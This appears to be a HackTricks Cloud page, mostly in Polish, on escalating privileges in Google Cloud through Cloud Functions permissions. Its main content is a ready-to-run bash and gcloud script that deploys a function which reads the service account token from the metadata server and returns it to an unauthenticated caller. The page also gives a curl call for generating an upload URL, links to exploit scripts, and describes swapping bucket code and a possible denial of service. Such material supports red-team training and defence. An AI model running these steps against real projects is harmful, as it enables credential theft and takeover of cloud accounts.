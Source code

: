 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Więcej informacji o Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Atakujący z tymi uprawnieniami może **utworzyć nową Cloud Function z dowolnym (złośliwym) kodem i przypisać jej konto usługi**. Następnie, wyciek tokena konta usługi z metadanych pozwala na eskalację uprawnień do niego.\
Możliwe, że będą wymagane pewne uprawnienia do wywołania funkcji.

Skrypty exploitacyjne dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) oraz [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), a gotowy plik .zip można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Atakujący z tymi uprawnieniami może **zmodyfikować kod funkcji, a nawet zmienić przypisane konto usługi** w celu wyeksportowania tokena.

{% hint style="danger" %}
Aby wdrożyć funkcje chmurowe, będziesz również potrzebować uprawnień actAs dla domyślnego konta usługi obliczeniowej lub dla konta usługi używanego do budowy obrazu.
{% endhint %}

Niektóre dodatkowe uprawnienia, takie jak uprawnienie `.call` dla wersji 1 cloudfunctions lub rola `role/run.invoker` do wywołania funkcji mogą być wymagane.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Jeśli otrzymasz błąd `Permission 'run.services.setIamPolicy' denied on resource...`, to dlatego, że używasz parametru `--allow-unauthenticated` i nie masz wystarczających uprawnień do tego.
{% endhint %}

Skrypt exploitacyjny dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Dzięki temu uprawnieniu możesz uzyskać **podpisany URL, aby móc przesłać plik do koszyka funkcji (ale kod funkcji nie zostanie zmieniony, nadal musisz go zaktualizować)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie jestem pewien, jak przydatne jest tylko to uprawnienie z perspektywy atakującego, ale dobrze to wiedzieć.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Daj sobie dowolne z wcześniejszych **`.update`** lub **`.create`** uprawnień, aby eskalować.

### `cloudfunctions.functions.update`

Mając tylko uprawnienia **`cloudfunctions`**, bez **`iam.serviceAccounts.actAs`**, **nie będziesz w stanie zaktualizować funkcji, WIĘC TO NIE JEST WAŻNA ESCALACJA.**

### Dostęp do odczytu i zapisu w koszyku

Jeśli masz dostęp do odczytu i zapisu w koszyku, możesz monitorować zmiany w kodzie, a gdy tylko **nastąpi aktualizacja w koszyku, możesz zaktualizować nowy kod swoim własnym kodem**, z którym nowa wersja Cloud Function będzie uruchamiana z przesłanym złośliwym kodem.

Możesz sprawdzić więcej na temat ataku w:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Jednak nie możesz użyć tego do wstępnego kompromitowania funkcji Cloud innych firm, ponieważ jeśli stworzysz koszyk na swoim koncie i dasz mu publiczne uprawnienia, aby zewnętrzny projekt mógł na nim pisać, otrzymasz następujący błąd:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Jednak to może być użyte do ataków DoS.
{% endhint %}

### Dostęp do odczytu i zapisu w rejestrze artefaktów

Gdy tworzona jest funkcja Cloud, nowy obraz docker jest przesyłany do rejestru artefaktów projektu. Próbowałem zmodyfikować obraz na nowy, a nawet usunąć bieżący obraz (i obraz `cache`), ale nic się nie zmieniło, funkcja chmurowa nadal działa. Dlatego może **możliwe jest nadużycie ataku Race Condition** jak w przypadku koszyka, aby zmienić kontener docker, który będzie uruchamiany, ale **po prostu modyfikacja przechowywanego obrazu nie jest możliwa do kompromitacji funkcji Cloud**.

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
